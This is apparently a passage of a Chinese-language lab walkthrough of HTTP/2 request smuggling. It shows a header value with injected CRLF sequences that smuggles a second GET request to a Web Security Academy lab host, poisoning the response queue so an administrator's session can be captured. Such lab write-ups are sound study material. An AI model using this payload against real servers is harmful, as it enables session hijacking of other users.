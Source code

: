[![](assets/1705287960-530726b869127814c97350fc14bf7a90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104527-7a352eb0-b02b-1.png)  
随后使用"Inspector"在请求的末尾加入一个任意的头信息

```plain
#Name
foo

#Value
bar\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net
```

[![](assets/1705287960-441b4f3c14731618d29807f693b2caa3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104547-8601e184-b02b-1.png)  
随后发送请求，前端服务器在降级期间会将\\r\\n\\r\\n附加到标头的末尾，而这实际上会将走私的前缀转换为完整的请求，从而毒化响应队列

[![](assets/1705287960-f50f63c6d17d60d192b52397eb36e030.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104558-8cf175ae-b02b-1.png)  
随后我们可以捕获到 administrator 的 Session
